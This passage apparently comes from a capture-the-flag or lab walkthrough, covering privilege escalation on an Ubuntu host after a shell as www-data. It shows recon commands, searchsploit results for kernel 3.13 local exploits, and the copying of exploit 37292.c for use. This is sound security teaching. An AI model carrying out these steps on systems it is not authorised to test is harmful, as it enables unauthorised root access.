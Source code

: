 ![shell](images/shell.png)

## Privilege escalation

```Console
www-data@ubuntu:/tmp$ whoami
www-data
www-data@ubuntu:/tmp$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:/tmp$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

Linux 3.13.0 on Ubuntu is vulnerable to privilege escalation. 

```Console
searchsploit Linux 3.13 Ubuntu
------------------------------- ---------------------------------
 Exploit Title                 |  Path
------------------------------- ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ub | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ub | linux/local/37293.txt
Linux Kernel 3.13/3.14 (Ubuntu | linux/dos/36743.c
Linux Kernel 3.4 < 3.13.2 (Ubu | linux/local/31346.c
Linux Kernel 3.4 < 3.13.2 (Ubu | linux_x86-64/local/31347.c
Linux Kernel 4.10.5 / < 4.14.3 | linux/dos/43234.c
Linux Kernel < 4.13.9 (Ubuntu  | linux/local/45010.c
Linux Kernel < 4.4.0-116 (Ubun | linux/local/44298.c
Linux Kernel < 4.4.0-21 (Ubunt | linux_x86-64/local/44300.c
Linux Kernel < 4.4.0-83 / < 4. | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0  | linux/local/47169.c
Ubuntu < 15.10 - PT Chown Arbi | linux/local/41760.txt
------------------------------- ---------------------------------
Shellcodes: No Results
#searchsploit -m 37292.c
```
